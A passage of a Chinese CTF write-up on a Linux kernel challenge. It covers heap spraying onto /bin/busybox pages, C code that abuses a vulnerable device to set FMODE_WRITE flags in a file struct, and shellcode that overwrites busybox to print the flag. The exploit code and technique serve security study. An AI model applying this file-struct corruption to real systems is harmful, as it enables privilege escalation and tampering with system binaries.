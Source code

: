 对于堆喷的准确性，经过尝试，感觉用 `musl-gcc` 编译的程序比 `gcc` 编译的程序更容易在使用更少的打开 `/bin/busybox` 次数的情况下 spray 到后一个页面，和杰哥讨论了一下，感觉可能是使用的 syscall 不一样， `gcc` 用的是 `openat`，而 `musl-gcc` 用的是 `open`，后者的实现更简单，可能更容易分配到连续的 page 上    

### 修改 file struct
直接利用题目条件写 opcode 修改，没啥好说的   
```c
    int write_offset = 20;
    push_imm(0x1014); // TODO fix it
    store(write_offset);
    // todo try this out add #define FMODE_CAN_WRITE         ((__force fmode_t)0x40000) flag, used to be 0x004a801d
    push_imm(0x4e801f);
    store(0); // this offset will be modified
    write(fd, tmp, idx); // write to /dev/mememe
    // write to buffer, but will it be lazy allocation? so we spray a second time
    ioctl(fd, 0x7601);
```
但是可以注意一下这个把 f_mode 要修改成的 flag，为 `原值 | FMODE_CAN_WRITE | FMODE_WRITE`，注意要加上 `FMODE_CAN_WRITE`，当时 debug 的时候瞪了好久....    

这些 flags 的具体取值和功能在 [这里](https://elixir.bootlin.com/linux/v6.6.91/source/include/linux/fs.h#L111)    
### 写 shellcode
这里可以注意一下，我们改的是该进程的 file 结构体的 `f_mode`，也就是在该进程尝试写入 `/bin/busybox` 的时候，能通过对写权限的检查，整个的 `/bin/busybox` 权限并不会变化    
看了 Qanux 师傅的 shellcode，我们把这些 bytes 导入到一个 binary 里面，格式为 `ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header`    

具体为如下汇编
```asm
start:                                  ; DATA XREF: LOAD:0000000000400018↑o
mov     rdi, 67616C662Fh
push    rdi
mov     rdi, rsp
xor     rsi, rsi
xor     rdx, rdx
add     rax, 2
syscall                 ; LINUX -

mov     edi, eax
mov     rsi, rsp
mov     rdx, 100h
xor     rax, rax
syscall                 ; LINUX - sys_read

mov     eax, 1
mov     edi, 1
syscall                 ; LINUX - sys_write

add     bh, bh
```
### 写好之后，在命令行里面敲 `exit` 就会 cat flag